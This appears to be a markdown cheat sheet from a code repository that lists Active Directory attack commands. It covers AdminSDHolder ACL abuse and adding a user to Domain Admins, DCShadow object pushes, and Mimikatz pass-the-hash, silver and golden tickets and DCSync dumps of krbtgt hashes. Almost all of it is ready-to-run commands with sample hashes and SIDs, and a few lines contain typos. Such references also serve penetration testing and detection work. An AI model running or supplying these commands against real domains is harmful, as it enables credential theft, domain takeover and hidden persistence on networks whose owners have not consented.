 ### AdminSDHolder Persistence
```
The User John has granted GenericAll Privilege.

Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName Joh -Verbose -Rights All

#The Following could be verify whether The unprivilege user John has GenericAll rights on the AdminSDHolder.

Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'John'}

net group "domain admins" John /add /domain
```

###  DCShadow Persistence
DCShadow is a persistence technique which is  allowing an attacker to push malicious changes into the environment by modifying active directory objects.domain privileges is requiredto carry out this attack
```
lsadump::dcshadow /object:John-PC$ /attribute:badpwdcount /value=7777
lsadump::dcshadow /push

```
### Mimikatz 

| Pass-the-Hash  |
| ------------- |
|Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:ninja.corp  /target:ninja.corp /ntlm:a87f3a337d73085c45f9416be5787d86 /ptt "'|

|Silver Tickets  |
| ------------- |
|kerberos::golden /user:Administrator /domain:testlab.local /sid:S-1-5-21-1516486103-3973840447-1748718438 /target:ninja.corp  /rc4:47b1d9d581f29b3b43845692bd4a0322 /service:cifs /ptt|

|Golden Tickets |
| ------------- |
|Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|Invoke-Mimikatz -Command '"kerberos::golden /user:evil /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|Invoke-Mimikatz -Command '"kerberos::golden /user:MeMe /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|kerbeos::golden /user:Administrator /krbtgt:HASH_KRBTGT /domain:ninja.corp /sid:S-1-5-21-2941561648-383941485-1389968811 /sids:S-1-5-SID-SECOND-DOMAIN-519 /ptt|

|DCSync |
| ------------- |
|lsadump::dcsync /domain:pentestlab.local /all /csv|
|Invoke-Mimikatz -Command '"lsadump::dcsync /domain:insomnia.ninja.corp /all /csv"'|
|Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'|
|Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'|
